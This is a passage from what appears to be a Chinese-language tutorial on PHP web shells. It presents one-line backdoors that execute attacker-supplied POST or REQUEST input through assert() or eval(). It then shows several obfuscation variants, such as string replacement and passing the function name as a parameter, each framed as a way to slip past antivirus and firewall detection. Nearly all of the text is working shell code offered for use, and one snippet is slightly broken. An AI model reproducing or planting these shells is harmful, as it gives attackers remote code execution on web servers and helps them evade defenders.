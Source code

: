 那么我们换一个函数：`assert()`可以代替`eval()`的作用

```
<?php assert($_POST['ABC']);?>
```

说明黑客会使用此种方法代替eval

那么如果杀毒软件把上述两种都杀掉：



思考——绕过防火墙的方法：

【下述方法结合使用】

**字符替换**：

```
<?php
$a = substr_replace("assexx","rt",4);
$a($_POST['ABC']);
?>
```

利用**函数传参：**

```
<?php
function haha($a){
$a($_POST['ABC']);
}           //function表示函数
haha(assert);     //此时assert不用加引号，因为表示一个内存地址
?>
```

或**将行为当做函数的参数**：

```
<?php
function haha($a){
assert($a);
}           //function表示函数
haha($_POST['ABC']);     //此时assert不用加引号，因为表示一个内存地址
?>
```

**换一行输出：**

```
<?php
$a = $_REQUEST['a'];
$b = "\n";     //php里如果需要使用\，得用""！！！
eval($b.=$a);
>

//每次输入的代码都换一行输出
//REQUEST表示GET和POST一起，都可以接收
//在杀post提交时可用
```
